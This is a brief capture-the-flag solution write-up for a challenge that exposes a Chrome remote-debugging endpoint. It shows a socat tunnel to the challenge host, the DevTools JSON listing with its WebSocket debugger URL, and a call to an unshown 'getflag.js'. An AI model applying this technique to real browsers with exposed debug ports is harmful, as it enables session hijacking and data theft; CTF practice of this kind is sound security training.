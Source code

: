 ## Solve 

Set up socat locally: 

```
socat TCP-LISTEN:1337,fork OPENSSL:ispy--kyle-7850.ctf.kitctf.de:443
```

Get the debug end-point from

```
localhost:1337/json -->

[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:1337/devtools/page/EF9C81924892F61908532AD6BFF31937",
   "id": "EF9C81924892F61908532AD6BFF31937",
   "title": "google.com",
   "type": "page",
   "url": "http://google.com/",
   "webSocketDebuggerUrl": "ws://localhost:1337/devtools/page/EF9C81924892F61908532AD6BFF31937"
} ]
```

Run node: 

node getflag.js


